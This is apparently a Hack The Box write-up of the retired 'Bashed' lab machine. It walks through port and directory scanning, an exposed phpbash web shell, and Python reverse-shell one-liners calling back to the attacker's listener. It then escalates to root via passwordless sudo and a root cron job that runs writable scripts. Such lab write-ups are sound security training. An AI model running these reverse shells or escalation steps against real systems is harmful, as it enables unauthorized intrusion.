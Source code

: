 

# HTB: Bashed

#ctf #hackthebox #htb-bashed #php #sudo #cron #oscp-like Apr 29, 2018






[HTB: Bashed](#)




Bashed retired from hackthebox.eu today. Here's my notes transformed
into a walkthrough. These notes are from a couple months ago, and they
are a bit raw, but posting here anyway.

## User

An initial nmap scan showed only port 80:



    root@kali# nmap -sV -sC -oA nmap/initial 10.10.10.68
    Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-06 20:40 EST
    Nmap scan report for 10.10.10.68
    Host is up (0.098s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http?

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 31.85 seconds



The page is a blog with one post about phpbash:
![](/img/phpbash.png)
![](/img/main.png)

So let's fire up gobuster and see what the site looks like:



    root@kali# gobuster -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.68/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /uploads (Status: 301)
    /php (Status: 301)
    /css (Status: 301)
    /dev (Status: 301)
    /js (Status: 301)
    /fonts (Status: 301)



`/dev` is interesting. and allows dirwalks:

![](/img/index_of_dev.png)

Clicking on phpbash gives a shell:

![](/img/phpbash_shell.png)

Inside /home/arrexel is the user flag:



    www-data@bashed:/home/arrexel# ls
    user.txt
    www-data@bashed:/home/arrexel# wc -c user.txt
    33 user.txt



## Shell upgrade

In phpbash, run:



    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



Local Kali:



    root@kali# nc -lnvp 1235
    listening on [any] 1235 ...
    connect to [10.10.14.157] from (UNKNOWN) [10.10.10.68] 49932
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c 'import pty; pty.spawn("/bin/bash")'
    www-data@bashed:/var/www.md/dev$



## root

Start with LinEnum.sh to get info about privesc. This section stands
out:



    www-data can sudo as scriptmanager:
    We can sudo without supplying a password!
    Matching Defaults entries for www-data on bashed:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on bashed:
        (scriptmanager : scriptmanager) NOPASSWD: ALL



Easy to get a shell as scriptmanager: `sudo -u scriptmanager /bin/bash`

Now scriptmanager has access to a folder that www-data could not access:



    $ ls -ld /scripts
    drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec  4 18:06 /scripts



Inside that directory, there are two files:



    scriptmanager@bashed:/scripts$ ls -l
    total 8
    -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4 17:03 test.py
    -rw-r--r-- 1 root          root          12 Mar  7 04:09 test.txt

    scriptmanager@bashed:/scripts$ cat test.py
    f = open("test.txt", "w")
    f.write("testing 123!")
    f.close

    scriptmanager@bashed:/scripts$ cat test.txt
    testing 123!



Most interesting is that the test.txt file is owned by root, and seems
to be the result of the test.py script, which is writable by
scriptmanager.

First, I tried moving test.txt to test.txt.old. A few minutes later,
it's back:



    scriptmanager@bashed:/scripts$ date
    Wed Mar  7 05:37:32 PST 2018

    scriptmanager@bashed:/scripts$ ls
    test.py  test.txt.old  test2.py  test3.py  testt.py

    scriptmanager@bashed:/scripts$ date
    Wed Mar  7 05:39:14 PST 2018

    scriptmanager@bashed:/scripts$ ls
    test.py  test.txt  test.txt.old  test2.py  test3.py  testt.py



Something is running that test.py script from the /scripts directory.

Create a test script that writes to a different file, and it writes the
different file. So any .py file seems to be run. Also, since test.py
doesn't have a #! at the start, it seems that whatever is running this
(maybe a cron?) is calling python.

It is possible to just write a script that reads /root/root.txt and
writes it elsewhere, but it's better to get a shell! Create the exploit:



    scriptmanager@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py



On Kali, set up a listener, and get root shell:



    root@kali# nc -lnvp 31337
    listening on [any] 31337 ...
    connect to [10.10.14.157] from (UNKNOWN) [10.10.10.68] 47806
    /bin/sh: 0: can't access tty; job control turned off

    # id
    uid=0(root) gid=0(root) groups=0(root)

    # python -c 'import pty; pty.spawn("/bin/bash")'

    root@bashed:/scripts# crontab -l
    * * * * * cd /scripts; for f in *.py; do python "$f"; done

    root@bashed:/scripts# wc -l /root/root.txt
    33 /root/root.txt



As expected, there's a cron that's running scripts from the /scripts
directory as root.





